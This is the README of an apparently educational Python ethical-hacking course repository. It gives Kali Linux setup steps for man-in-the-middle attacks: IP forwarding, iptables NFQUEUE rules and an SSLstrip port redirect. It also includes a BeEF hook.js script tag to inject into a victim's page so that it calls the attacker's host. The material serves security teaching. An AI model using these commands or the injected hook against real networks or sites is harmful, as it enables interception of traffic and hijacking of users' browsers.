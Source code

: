 # EthicalHackingCourse
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

### Python
It seems that *netfilterqueue* does not work on Python 3.x.

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`
